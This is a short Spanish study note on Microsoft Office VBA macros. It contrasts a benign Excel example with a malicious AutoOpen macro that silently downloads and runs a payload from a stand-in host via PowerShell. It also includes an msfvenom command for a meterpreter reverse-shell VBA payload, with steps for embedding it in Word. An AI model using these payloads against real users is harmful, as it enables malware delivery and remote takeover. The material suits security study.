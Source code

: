 ```yaml
---
Extra: 📄 Macros de Office
fecha: 2024-11-07
tags:
  - extra
  - ofuscacion
  - exploit
---
```


## Macros de Office

### Descripción

Las **Macros de Office** son secuencias de comandos creadas con **VBA (Visual Basic for Applications)**, utilizadas comúnmente para automatizar tareas en documentos de Microsoft Office como Word, Excel y PowerPoint. Sin embargo, también son conocidas por su uso malicioso en ataques cibernéticos, como la entrega de malware o la escalación de privilegios.

### Características clave

- **Automatización**: Permiten realizar tareas repetitivas y complejas con un solo clic.
- **Compatibilidad**: Funciona en varios programas de Office.
- **Potencial de abuso**: Utilizadas en ataques como phishing para ejecutar código malicioso.
- **Facilidad de uso**: Simple de crear, editar e incrustar en documentos.

### Ejemplo de uso benigno

Automatizar el cálculo de datos en un archivo Excel:

- Ejemplo sin daño:
```vba
Sub CalcularPromedio()
    Dim Rango As Range
    Set Rango = Selection
    MsgBox "El promedio es: " & Application.WorksheetFunction.Average(Rango)
End Sub
```

- Ejemplo con daño:
```vba
Sub AutoOpen()
    Dim Str As String
    Str = "powershell -Command ""Invoke-WebRequest -Uri 'http://example.com/payload.exe' -OutFile 'C:\payload.exe'; Start-Process 'C:\payload.exe'"""
    Shell Str, vbHide
End Sub
```

Ejemplo en word ->

![[Pasted image 20241210195150.png]]

## Ejemplo con msfvenom

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.2.134 LPORT=4444 -f vba-exe
```

Te da un output gigante que se ha de pegar en las macros de Office (el macro code es la subrutina) el payload hay que pegarlo en el documento de word y el código de macro en las macros del word (improtante fijarse si está hecho para word o excel).

## Mirar en ofuscacion/macropack